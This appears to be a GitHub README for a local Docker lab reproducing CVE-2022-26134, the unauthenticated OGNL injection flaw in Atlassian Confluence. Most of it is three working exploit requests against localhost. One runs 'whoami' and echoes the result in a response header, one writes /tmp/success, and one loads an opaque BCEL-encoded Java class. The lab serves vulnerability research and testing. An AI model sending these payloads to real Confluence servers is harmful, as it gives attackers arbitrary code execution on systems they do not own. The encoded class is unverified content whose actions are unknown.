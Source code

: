 # Atlassian Confluence Pre-Auth Remote Code Execution Vulnerability(CVE-2022-26134)

## Introduction

Atlassian has been made aware of current active exploitation of a critical severity unauthenticated remote code execution vulnerability in Confluence Data Center and Server. The `OGNL` injection vulnerability allows an unauthenticated user to execute arbitrary code on a Confluence Server or Data Center instance. 

## Usage

Run

```bash
docker-compose up
```

Follow the installation guild and setup the database with

```
user: postgres
passwd: postgres
database: confluence
```

Sending the request

```http
GET /%24%7B(Class.forName(%22jav%22+%22ax.script.ScriptEngineManager%22).newInstance().getEngineByName(%22js%22).eval(%22var%20p%20%3D%20org.apache.commons.io.IOUtils.toString(java.lang.Runtime.getRuntime().exec('whoami').getInputStream(),'utf-8')%3B%20com.opensymphony.webwork.ServletActionContext.getResponse().setHeader('X-Cmd-Response',p)%3B%22))%7D/ HTTP/1.1
Host: localhost:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
```

![](images/screenshot.jpg)

or a brief poc but witout command execution reply in response.

```http
GET /%24%7B(Class.forName(%22java%22+%22.lang.Runtime%22).getMethod(%22getRuntime%22,%20null).invoke(null,%20null).exec(%22touch%20/tmp/success%22))%7D/ HTTP/1.1
Host: localhost:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
```

or with bcel `ClassLoader`

```http
GET /%24%7B(Class.forName(%22org.ap%22+%22ache.bcel.util.ClassLoader%22).newInstance().loadClass(%22$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQMO$h1$Q$7dN$96$ecv1M$I$J$l$z$z$l$fd$m$c9$a1$x$qn$m$$$VHU$b7$Nj$Q$9c$j$c7$K$a6$c9$3a$dax$x$feQ$cf$5c$d2$aa$H$7e$A$3f$K1$5eR$KmW$da$Z$cf$bc$997$cf$e3$eb$9b_W$Av$d0$K$f1$E$cb$nV$f0$y$c0s$e7W$5d$e6$85$8f$97$nJX$f3$b1$eec$83$a1$b4$a7$Tm$f7$Z$8a$8d$e6$J$83$f7$de$f4$UC9$d6$89$fa$9c$N$bb$w$3d$W$dd$Be$aa$b1$91bp$oR$ed$e2i$d2$b3gz$cc0$lK3$8cl$da$XIODGF$ee2$E$7br0efTY$8f$cf$c57$Ri$T$7dh$l$5cH5$b2$da$qT6$d7$b1B$7e$fd$qF9$p$89c$I$3b$sK$a5$3a$d4nB$40l$ef$5c$xG$88Y$l$9b$i$af$f0$9aa$c1$9aL$9e$adGv8$8a$c6$99$94j$3c$de$e6x$83$b7$i$5bh$Q$fe$9fq$iM$cc$d2$dd$fe$S$cbP$c9$8b$H$o$e9G$ed$ee$b9$92$96$ae$f4$t$f5$rK$ac$k$92$96$b0$af$ec$7dPo4$e3$7fj$e8B$9e$baPD$b9$d5x$80vl$aa$93$fe$ee$c3$86$a3$d48$cdnQ$d6$dc$e1$M$b5G$9c$d3$$$S$3c$a2$83$cd$Xu$9c$K$a9$b0$81$80$9e$d2$7d$F0$b7$X$b2$9c$a2$88$3c$p$3f$d3$fa$Bv$99$c3sdKwI$3c$r$cb$a7$e72$w$e4$D$cc$df7$f7r2$a0$fe$T$85jq$Co$82$99$d3$ef$I$3e$b6$s$f0$_s$88S$5b$J$c5$9ct$91H$i$B$t$822$a9$a9$90$8e$gE$bf$87T$e0$a1$8a$F$8aj$f4$fb$u$b4$7d$d4$3d$C$Ws$5dK$b7M$fe$b8$8b$a9$C$A$A%22).newInstance())%7D/ HTTP/1.1
Host: localhost:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
```

## Reference

1. https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html
2. https://jira.atlassian.com/browse/CONFSERVER-79016